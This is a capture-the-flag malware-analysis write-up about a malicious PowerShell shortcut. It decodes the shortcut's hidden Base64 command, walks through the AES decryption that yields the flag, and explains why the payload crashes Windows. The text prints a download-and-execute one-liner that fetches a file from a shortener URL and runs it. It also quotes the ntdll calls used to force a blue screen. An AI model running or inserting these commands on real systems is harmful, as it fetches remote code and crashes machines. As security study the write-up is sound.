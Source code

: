 # Russian Roulette

## Description

```
My PowerShell has been acting really weird!! It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! :(
````

***Personal Reflection
I’m thrilled to have raced through this challenge like a kid on a sugar high and snagged a spot in the top 8 fastest! Guess all those late-night debugging sessions paid off!
***



## Malware Analysis Procedure

This is a malicious file; use a sandbox environment. I am running Flare VM.

[Flare VM on GitHub](https://github.com/mandiant/flare-vm)


## Default Analysis Steps

When I conduct a malware analysis, I usually check for:

- **Network connections** → Wireshark
- **Memory activities** → DumpIt → Volatility or MemProcFS
- **Processes** → Process Monitor from Sysinternals
- **Disk activity**



***Steps to solve the CTF***

## Download the file and extract it in a safe env.

## Initial File Inspection

The first thing I do with the file is to run the command:

file <filename>

```
Windows PowerShell.lnk: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Feb 17 05:44:00 2024, mtime=Thu Oct 03 17:53:00 2024, atime=Sat Feb 17 05:44:00 2024, length=450560, window=hidenormalshowminimized.
```

The file is a LNK (shortcut) file.

Right-click the file and select Properties to view the targets.

This reveals that PowerShell executes a Base64 string, which can be decoded to extract the following command:
```
iwr is.gd/jwr7JD -o $env:TMP/.cmd; & $env:TMP/.cmd
```


## Process Analysis
I can also see in the processes captured with Process Monitor that cmd spawns a PowerShell process, which then runs a Base64 string.

PID: 3660
PPID: 2116
I save the Base64 string to a file and run:
```
Base64.exe -d base64string.txt > stage2.txt
```
After decoding everything, we find that it resembles a PowerShell script with embedded C# code.

We refine the code to make it more readable (see the stage2.txt file in the folder).


## Decryption Process
We observe that decryption takes place, and we want to make the code "safe" by ONLY printing the decrypted output. Remove evrything else that dosnt have to do with the decryption.

How Does the Decryption Process Work?
Three Base64-encoded strings (c, k, and i) were decoded into byte arrays:

```c```: The encrypted text.
```k```: The AES key.
```i```: The Initialization Vector (IV) for AES.

I modify the code to print the decrypted string (see the aesdec.txt file).

Run the code and get the response: flag{REDACTED}

-------------------------------------------------------

## Note + Extra Nerdiness
Link to additional resources

If you run the code, you will experience a BSOD (Blue Screen of Death).

Why?
The code utilizes ntdll.dll, which implements basic functions for Windows. It can cause severe issues if mishandled.

```
RtlAdjustPrivilege(19, true, false, out o);
```
The number 19 represents SeShutdownPrivilege (allows the system to restart or shut down services).
```
NtRaiseHardError(0xc0000022, 0, 0, IntPtr.Zero, 6, out r);
```
NtRaiseHardError is a function that can trigger a "serious error," leading to a BSOD to prevent damage to the system.